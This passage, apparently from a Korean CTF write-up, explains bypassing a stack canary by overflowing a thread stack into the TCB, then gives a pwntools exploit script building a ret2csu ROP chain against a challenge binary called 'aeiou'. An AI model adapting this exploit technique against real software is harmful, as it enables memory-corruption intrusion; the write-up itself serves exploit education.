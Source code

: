 
- 이 때, stack canary가 존재해서 leak이 없는 이상 공격이 힘들 것 같지만 canary는 TCB의 특정 8byte를 사용하게 된다. TCB(Thread Control Block)은 thread가 생성될 때마다 thread stack과 같이 생성되며 thread stack 최하단에 존재한다. 그러므로 tcb가 덮힐정도의 overflow를 해주면 해당 thread에서 stack canary를 무력화되게 된다. 아래는 해당 개념을 사용한 공격코드이다.

  ```python
  from pwn import *
  
  debug = True
  
  con = process("./aeiou", env={"LD_PRELOAD": "./libc.so"})
  
  binary = ELF("./aeiou")
  libc = ELF("./libc.so")
  
  con.sendlineafter(">>", "3")
  
  csu_init = 0x4026EA
  trigger = 0x4026D0
  
  payload = ""
  payload += "A" * 0x1018
  payload += p64(csu_init)
  payload += p64(0) #x
  payload += p64(1) #p
  payload += p64(binary.got["read"]) #12
  payload += p64(0x100) #13
  payload += p64(binary.bss() + 0x100) #14
  payload += p64(0) #15
  payload += p64(trigger)
  payload += p64(0x4141) # dummy
  
  payload += p64(0)
  payload += p64(1)
  payload += p64(binary.got["puts"])
  payload += p64(0) * 2
  payload += p64(binary.got["read"])
  payload += p64(trigger)
  payload += p64(0x4141)
  
  payload += p64(0)
  payload += p64(1)
  payload += p64(binary.got["read"])
  payload += p64(0x100)
  payload += p64(binary.bss() + 0x110)
  payload += p64(0)
  payload += p64(trigger)
  payload += p64(0x4141)
  
  payload += p64(0)
  payload += p64(1)
  payload += p64(binary.bss() + 0x110)
  payload += p64(0)
  payload += p64(0)
  payload += p64(binary.bss() + 0x100)
  payload += p64(trigger)
  payload += p64(0x4141)
  
  payload += p64(0) * 6
  payload += p64(0x400E9A)
  
  payload = payload.ljust(0x2000, "A")
  
  con.sendlineafter("number!", str(0x2000))
  con.send(payload)
  ```